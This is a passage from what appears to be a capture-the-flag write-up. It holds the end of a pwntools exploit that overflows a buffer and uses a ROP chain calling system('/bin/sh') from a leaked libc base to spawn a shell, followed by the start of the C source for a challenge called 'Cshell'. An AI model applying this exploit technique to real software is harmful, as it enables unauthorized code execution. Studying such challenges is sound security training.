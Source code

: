 ```
	bin_offset = next(libc.search(b"/bin/sh"))
	sys_call = libc_base + sys_offset
	bin_call = libc_base + bin_offset

	payload = name + b"a"*(256-len(name)) + b"b"*8
	payload += p64(pop)
	payload += p64(bin_call)
	payload += p64(ret)
	payload += p64(sys_call)
	io.sendline(payload)
	io.interactive()
	

io = process(BIN)
#io = remote('pwn.be.ax',5000)
exploit()
```


## Cshell

Source code for this challenge: 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <crypt.h>

//gcc Cshell.c -static -lcrypt -o Cshell
struct users {
	char name[8];
	char passwd[35];
};

struct tracker{
	struct tracker *next;
	struct users *ptr;
	char name[8];
	long int id;
};

char * alex_buff;
char * Charlie_buff;
char * Johnny_buff;
char * Eric_buff;

struct users *user;
struct users *root;

struct tracker *root_t;
struct tracker *user_t;

char *username[8];
char *userbuffer;
int uid=1000;
int length;
char salt[5] = "1337\0";
char *hash;
void setup(){
	char password_L[33];
	puts("Welcome to Cshell, a very restricted shell.\nPlease create a profile.");
	printf("Enter a username up to 8 characters long.\n> ");
```